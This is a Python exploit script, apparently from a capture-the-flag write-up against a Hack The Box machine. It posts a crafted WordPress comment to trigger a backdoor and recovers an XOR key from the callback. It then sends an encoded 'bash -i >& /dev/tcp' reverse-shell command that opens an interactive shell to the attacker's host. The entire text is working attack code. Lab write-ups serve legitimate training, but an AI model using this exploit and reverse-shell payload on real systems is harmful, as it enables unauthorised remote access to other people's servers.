 

    #!/usr/bin/env python3

    import requests
    import socket
    import sys
    from binascii import unhexlify


    if len(sys.argv) != 3:
        print(f"Get shell from wordpress.toby.htb\n\n{sys.argv[0]} LHOST LPORT")
        sys.exit()

    ip = sys.argv[1]
    port = sys.argv[2]

    # set up listener
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(('0.0.0.0',20053))
    s.listen(1)

    # trigger connection
    try:
        requests.post('http://wordpress.toby.htb/wp-comments-post.php',
            data = {"comment": f"746f6279{ip}", "author": "0xdf",
                "email": "help@toby.htb", "url": "http://test.toby.htb/",
                "wp-comment-cookies-consent": "yes", "submit": "Post Comment",
                "comment_post_ID": "5", "comment_parent": "0"},
            timeout = 0.5)
    except requests.exceptions.Timeout:
        pass

    # accept and request shell
    c, address = s.accept()
    print(f'[+] Connection from {address[0]}')
    data = c.recv(1024)
    guid, hex_msg = data.split(b'|')
    print(f'[*] Session ID: {guid}')
    msg = unhexlify(hex_msg.strip())
    xor_msg = unhexlify(msg.split(b':')[-1])
    xor_chr = xor_msg.split(b'_')[2]
    assert(len(xor_chr) == 1)

    print(f'[*] XOR key: {xor_chr.decode()}')
    xor = ord(xor_chr)

    cmd = f"bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'".encode()
    encoded_cmd = bytes([x^xor for x in cmd])
    print(f'[*] Triggering shell. Watch at listening nc.')
    c.send(encoded_cmd)
    resp = c.recv(1024).strip()
    new_guid, msg = resp.split(b'|')
    assert(new_guid == guid)
    pt_msg = bytes([x^xor for x in unhexlify(msg)]).decode()
    print(f'{pt_msg}')
